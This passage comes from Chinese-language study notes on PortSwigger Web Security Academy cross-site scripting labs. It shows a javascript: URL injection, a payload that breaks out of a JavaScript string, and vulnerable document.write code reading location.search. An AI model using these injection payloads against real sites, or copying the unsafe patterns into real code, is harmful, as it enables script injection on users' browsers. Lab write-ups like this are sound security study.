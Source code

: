 在 website 欄位注入 `javascript:alert(1)`，就會變成


```html
<a href="javascript:alert(1)"></a>
```

## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

| Dimension | Description                                                                                                          |
| --------- | -------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#breaking-out-of-a-javascript-string               |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded |

先觀察網站的 js


```js
var searchTerms = '123';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

題目有給 hint，是要想辦法跳出 js string，payload 如下


```js
';alert(1);var a = '3
```

注入後會變成


```js
var searchTerms = '';alert(1);var a = '3';
```

## Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#exploiting-dom-xss-with-different-sources-and-sinks |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element       |

先觀察網站的 js


```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```
